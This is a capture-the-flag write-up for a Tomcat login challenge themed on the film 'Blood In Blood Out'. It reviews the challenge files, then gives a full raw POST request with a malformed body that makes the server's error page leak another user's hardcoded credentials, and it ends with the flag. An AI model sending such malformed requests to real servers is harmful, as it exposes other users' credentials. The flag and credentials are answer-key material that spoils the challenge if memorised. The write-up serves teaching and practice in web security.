 # TASK INFO
Task Author: LOLASL
Writeup author: Raresh1t (SIFI)

**Task text:** 
*Hey carnal, sometimes you gotta slide in a little extra something for the homies. Theres a placa looking every minute so keep it tight, ese.*

The task theme is based on the movie "Blood In Blood Out" released in 1993, focusing on the Vatos Locos gang in Los Angeles in 1970s California.

# File analysis
**Attached file:**
A gzip archive is attached with the task. (bloodinbloodout.tar.gz)
Unzipping this archive extracts a folder named "source" which contains 5 files and 1 other directory.

**Dockerfile:** Contains the docker instancing instructions. Exposes port 8443. Finishes by running run.sh

**run.sh:** Simple shell file which starts the Catalina container, then runs victim.sh.

**victim.sh:** A shell script which continually performs an admin login towards localhost:8443/welcome.jsp every minute. (*This script is referenced from the second task
sentence: "a placa looking every minute"*)
This file contains a variable COOKIES, which holds the string: "JSESSIONID=EFC6BC3B39449C34A07AAEED1E9BE69A"

The main part of the script is a function "simulate_admin_login()" containing an always-true while loop which performs a curl request to the specified endpoint, then sleeps for 60 seconds and then performs another, indefinitely.
The file we were given contains placeholders for association, username, and password which are likely key parts needed to obtain the flag.

**server.xml**: This is the main server configuration for the Tomcat server, and contains some defined instructions. The most important detail of this file is that a Connector to port 8443 is defined, along with a keystore file with the alias "tomcat" with the key to the keystore file defined as "yoyoma"
```
<Connector port="8443" protocol="HTTP/1.1"
           connectionTimeout="20000"
           scheme="https"
           secure="true"
           SSLEnabled="true"
           keyAlias="tomcat"
           keystoreFile="conf/ssl/selfsigned.jks"
           keystorePass="yoyoma"
           clientAuth="false" />
```
Another interesting piece is a Valve defined as a log collector which stores localhost access logs in the directory "logs" as the file "localhost_access_logs.txt".
```
        <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```
**selfsigned.jks**: This is the java keystore file, which we know from the server.xml configuration is protected with the string "yoyoma". This key can be used to decrypt TLS-encrypted traffic for the Connector port 8443 as it was used to configure the Connector port in the server configuration.

**Directory ROOT:** This directory contains the two files which are present on the webpage: "index.jsp" and "welcome.jsp". Index is the front page with the login screen, and welcome is the JavaServer page which is called from index.jsp when a login action is POSTed.

**index.jsp**: Nothing special here. Just the login page containing the form which requires all 3 parameters, and calls on welcome.jsp for POST requests.
**welcome.jsp**: The page which handles POST requests. It stores the provided username and password parameters from the request as strings and does a simple if-statement with a logical AND operator to check if both values are equal to some hard-coded value. If they are, you get the flag. If not, you get "Hey Cinderella, go find yourself a fella!" which is a known quote from the movie the task is based on.
```
    String username = request.getParameter("username");
    String password = request.getParameter("password");

    if("placeholderuser".equals(username) && "placeholderpassword".equals(password)) {
        out.println("<h3>EPT{this_is_a_placeholder_flag}</h3>");
    } else {
        out.println("<h3>Hey Cinderella, go find yourself a fella!</h3>");
    }
    %>

```

With all this in mind we need to find out where we can get these correct values to login and get the flag.
# Web Analysis
This task is simply a web-exploit challenge, however there are a few pitfalls which are easy to get lost in.

The task is running on an ondemand service (a VM) which has an Apache Tomcat server running with a Catalina container. The server presents you with a simple login screen for "San Quentin". San Quentin is a state prison in California which matches the theme of the task.

The login page has 3 input parameters: one association, one username, and one password.
The association parameter is a dropdown menu with 4 options, which is a required parameter: Los Angeles Police Department, Black Guerilla Army (BGA), The Aryan Vanguard, and La Onda. These are all significant groups which are tied to the movie.
Username and password are simply text input fields, but as identified in the file analysis they are also required parameters.

# Pitfall 1
An attempted brute force is not recommended for this task. You could be lucky as the correct username and password are related to the movie, however it is not an intended solution. 
# Pitfall 2
The biggest pitfall in this task is the idea that you need to attack victim.sh. Port 8443 is not open externally, which was checked with an Nmap scan.
You can not intercept or capture the traffic this script is generating as it is only sending traffic locally. This also removes the entire need for the keystore file. You could use it to decrypt traffic, but you can't intercept the traffic which you would need to decrypt.

# Solution
This task was simply solved with a sensitive information leak through an error response when the server handles a request.
```
"POST /welcome.jsp HTTP/1.1
Host: 10.128.2.173
Cookie: JSESSIONID=D250017936541CC7182F4309877D54D4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://10.128.2.173
Referer: https://10.128.2.173/index.jsp
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: keep-alive

association=Black"&username"&username=ls&password=%26password"
```
**association=Black"&username"&username=ls&password=%26password**

The response from the server indicates a successful request, however the server has received an error and leaked an error which has occurred when attempting to process a bad request.
```
HTTP/1.1 200 Content-Type: text/html;charset=UTF-8 Content-Length: 1224 Date: Sat, 02 Nov 2024 17:24:59 GMT Keep-Alive: timeout=20 Connection: keep-alive <!DOCTYPE html> <html> <head> <meta charset="UTF-8"> <title>Welcome to San Quentin</title> <style> body { background: url('https://dannytrejo.com/wp-content/uploads/2016/06/blood-in-blood-out-danny-trejo-crew.jpg') no-repeat center center fixed; background-size: cover; color: #fff; font-family: 'Arial', sans-serif; height: 100vh; display: flex; justify-content: center; align-items: center; } .welcome-container { text-align: center; background: rgba(0, 0, 0, 0.7); padding: 30px; border-radius: 10px; width: 350px; box-shadow: 0 4px 10px rgba(0, 0, 0, 0.5); } .welcome-container h1 { font-size: 24px; color: #ff4500; text-transform: uppercase; letter-spacing: 2px; } .welcome-container img { width: 100px; margin-bottom: 20px; } </style> </head> <body> <div class="welcome-container"> <h3>Hey Cinderella, go find yourself a fella!</h3> </div> </body> HTTP/1.1 400 Content-Type: text/html;charset=utf-8 Content-Language: en Transfer-Encoding: chunked Date: Sat, 02 Nov 2024 17:24:59 GMT Connection: close 2000 <!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato19690x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x000x00"
```

Providing a malformed input causes the server to leak the hardcoded credentials in the request handling:
```
<h1>HTTP Status 400 – Bad Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in method name [ck&quot;&amp;username&quot;&amp;username=ls&amp;password=%26passwordT17:24:30+00:00&amp;submit=true&amp;association=Los+Angeles+Police+Department&amp;username=paco&amp;password=carnalvato1969
```
**username=paco&amp;password=carnalvato1969**

Logging in with **username = paco** and **password = carnalvato1969** reveals the flag:
**EPT{vatos_locos_4_ever_ese!_<3}**
